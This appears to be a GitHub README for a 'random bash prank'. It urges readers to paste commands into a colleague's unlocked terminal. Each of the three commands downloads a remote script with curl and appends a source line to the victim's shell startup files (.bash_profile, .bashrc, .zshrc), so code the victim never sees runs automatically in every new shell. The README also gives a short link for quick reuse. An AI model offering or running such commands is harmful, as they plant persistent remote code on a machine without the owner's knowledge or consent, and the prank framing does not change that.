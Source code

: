 # Random bash prank

Your colleague did not block his computer?
Well, all you have to do is copy-paste below lines into your friend's terminal. 
Hopefully she or he uses some kind of bash :)

#### Copy-paste lines below into a terminal

Just for your convenience three lines in one box, so that you can save some time :)

```bash
curl -s https://raw.githubusercontent.com/localhost-dev/random-bash-prank/master/random-prank.sh -o ~/.extra-profile.sh && echo "source ~/.extra-profile.sh" >> ~/.bash_profile
curl -s https://raw.githubusercontent.com/localhost-dev/random-bash-prank/master/random-prank.sh -o ~/.extra-profile.sh && echo "source ~/.extra-profile.sh" >> ~/.bashrc
curl -s https://raw.githubusercontent.com/localhost-dev/random-bash-prank/master/random-prank.sh -o ~/.extra-profile.sh && echo "source ~/.extra-profile.sh" >> ~/.zshrc
```

#### Short link to this repo

Just remember this short link, and you are good to go: 
http://tiny.cc/bashprank

